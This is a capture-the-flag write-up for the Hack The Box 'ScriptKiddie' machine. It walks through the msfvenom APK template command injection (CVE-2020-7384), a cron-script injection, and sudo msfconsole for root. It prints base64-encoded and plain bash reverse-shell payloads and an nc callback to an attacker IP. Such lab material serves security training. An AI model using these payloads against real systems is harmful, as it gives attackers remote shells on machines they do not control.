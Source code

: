 ![](scriptKiddie_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.226 scriptKiddie.htb

**nmap scan:**
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 5000 running Werkzeug httpd 0.16.1 (Python 3.8.5)

![](screenshots/web-page.png)

* There is no command injection or lfi.
* searchsploit and nmap don't have any known vulnerability.
* msfvenom have a temlate option which is vulnerable.
  * **Description:** This module exploits a command injection vulnerability in Metasploit Framework's msfvenom payload generator when using a crafted APK file as an Android payload template. Affects Metasploit Framework <= 6.0.11 and Metasploit Pro <= 4.18.0. The file produced by this module is a relatively empty yet valid-enough APK file. To trigger the vulnerability, the victim user should do the following: `msfvenom -p android/<...> -x` 
  * [CVE-2020-7384 Rapid7](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
    * msf module: `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
  * [Exploit script](https://www.exploit-db.com/exploits/49491)

# Foothold

## Command Injection

The command vulnerability is in step 2 of this process from [apk.rb#L194-L197](https://github.com/rapid7/metasploit-framework/blob/64695f1/lib/msf/core/payload/apk.rb#L194-L197). keytool is executed using the following command line:
```rb
      run_cmd("keytool -genkey -v -keystore #{keystore} \
      -alias #{keyalias} -storepass #{storepass} -keypass #{keypass} -keyalg RSA \
      -keysize 2048 -startdate '#{orig_cert_startdate}' \
      -validity #{orig_cert_validity} -dname '#{orig_cert_dname}'")
```

In particular, the value for `orig_cert_dname` is obtained from step 1 of the process, where the original APK was parsed and the "Owner" field was extracted from the APK's signature.

This command string is passed to `Open3.popen3()` in [apk.rb#L29-L36](https://github.com/rapid7/metasploit-framework/blob/64695f1/lib/msf/core/payload/apk.rb#L29-L36). When this function receives a single string parameter (as opposed to multiple parameters) it effectively acts as a `system()` function.
```rb
  def run_cmd(cmd)
    begin
      stdin, stdout, stderr = Open3.popen3(cmd)
      return stdout.read + stderr.read
    rescue Errno::ENOENT
      return nil
    end
  end
```

This gives rise to a command injection vulnerability. If a crafted APK file has a signature with an **"Owner"** field containing:
```bash
#A single quote (to escape the single-quoted string)
#Followed by shell metacharacters
#and run_cmd() function see it like that
-dname '#{CN='|echo cGluZyAtYyAyIDEwLjEwLjE1Ljcx | base64 -d | sh #}'
```

When that APK file is used as an msfvenom template, arbitrary commands can be executed on the msfvenom user's system.

* [Detailed advisories](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)
* [commit changes](https://github.com/rapid7/metasploit-framework/pull/14288/commits/d1528cc0aa48ac667304f1e5116a784fe2dc8f15)

![](screenshots/template-injection.png)

### Exploit

This is a command injection vulnerability. When user supply a template apk to msfvenom , it takes application read it's certificate and use cert's owner for resign apk but don't check for strings certificate.

1. Create empty apk file
```bash
touch empty && zip -j payload.apk empty
```

![](screenshots/create-apk.png)

2. Create cert and add injection payload in `-dname` field
```bash
keytool -genkey -keystore ./signing.keystore -alias "signing.key" -storepass "password" -keypass "password" -keyalg RSA -keysize 2048 -dname "CN='|echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjcxLzQxNDEgMD4mMScK | base64 -d | sh #"
```

![](screenshots/create-cert.png)

3. sign the apk with created cert
```bash
jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore ./signing.keystore -storepass "password" -keypass "password" payload.apk "signing.key"
```

![](screenshots/signed-apk.png)

and this apk execute arbitrary code in the server and give reverse shell

![](screenshots/get-shell.png)

# Privesc

* Get shell as user "kid"
* user "pwn" have a bash script that taking content from user "kid" home folder.

![](screenshots/pwn-script.png)

* This can lead to command injection.
* Script execute by pwn cron when `/home/kid/logs/hackers` file get some data.
* using some extra words before payload to bypass `cut` command `cut -d' ' -f3-`
```bash
null null ;id|nc 10.10.15.71 4141 #
```

![](screenshots/cut-bypass.png)

pspy output

![](screenshots/pspy-lookup.png)

reverse shell
```bash
null null ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1' #
```

![](screenshots/pwn-shell.png)

<!--echo "null null ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1' #" > /home/kid/logs/hackers-->

## msfconsole with sudo

User have right to run `/opt/metasploit-framework-6.0.9/msfconsole` with sudo as root with no password
```bash
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

and inside msfconsole user "pwn" is root
```bash
sudo -u root /opt/metasploit-framework-6.0.9/msfconsole
```

![](screenshots/msf-root.png)

